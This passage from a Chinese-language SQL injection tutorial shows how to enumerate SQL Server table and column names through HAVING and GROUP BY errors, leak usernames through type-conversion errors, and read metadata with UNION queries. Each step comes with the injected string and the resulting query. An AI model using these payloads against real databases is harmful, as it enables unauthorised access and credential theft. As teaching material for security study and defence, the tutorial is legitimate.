 攻击者可以利用 SQL Server 特性来获取敏感信息，在输入框中输入如下语句：
`' having 1 = 1 --`
最终执行的 SQL 语句就会变为：
`SELECT * FROM user WHERE username = 'root' AND password = 'root' HAVING 1 = 1 --`

那么 SQL 的执行器可能会抛出一个错误：
![在这里插入图片描述](./picture/20190224191512414.png)

攻击者就可以发现当前的表名为 user、而且存在字段 id。

攻击者可以利用此特性继续得到其他列名，输入如下语句：
`' GROUP BY users.id HAVING 1 = 1 --`
则 SQL 语句变为：
`SELECT * FROM user WHERE username = 'root' AND password = 'root' GROUP BY users.id HAVING 1 = 1 --`

抛出错误：
![在这里插入图片描述](./picture/20190224192110665.png)
由此可以看到包含列名 username。可以一次递归查询，知道没有错误消息返回位置，这样就可以利用 HAVING 字句得到当表的所有列名。
**注：Select 指定的每一列都应该出现在 Group By 子句中，除非对这一列使用了聚合函数**

**②. 利用数据类型错误提取数据**
如果试图将一个字符串与非字符串比较，或者将一个字符串转换为另一个不兼容的类型，那么 SQL 编辑器将会抛出异常。

如下列 SQL 语句：
`SELECT * FROM user WHERE username = 'abc' AND password = 'abc' AND 1 > (SELECT TOP 1 username FROM users)`

执行器错误提示：
![在这里插入图片描述](./picture/20190224193113204.png)
这就可以获取到用户的用户名为 root。因为在子查询 `SELECT TOP 1 username FROM users` 中，将查询到的用户名的第一个返回，返回类型是 varchar 类型，然后要跟 int 类型的 1 比较，两种类型不同的数据无法比较而报错，从而导致了数据泄露。

利用此方法可以递归推导出所有的账户信息：
`SELECT * FROM users WHERE username = 'abc' AND password = 'abc' AND 1 > (SELECT TOP 1 username FROM users WHERE not in ('root'))`。
通过构造此语句就可以获得下一个 用户名；若把子查询中的 username 换成其他列名，则可以获取其他列的信息，这里就不再赘述。

##### 2. 获取元数据

SQL Server 提供了大量视图，便于取得元数据。可以先猜测出表的列数，然后用 UNION 来构造 SQL 语句获取其中的数据。
如：
`SELECT *** FROM *** WHERE id = *** UNION SELECT 1, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES`
若当前表的列数为 2，则可以 UNION 语句获取当前数据库表。具体怎么猜测当前表的列数，后面进行描述。
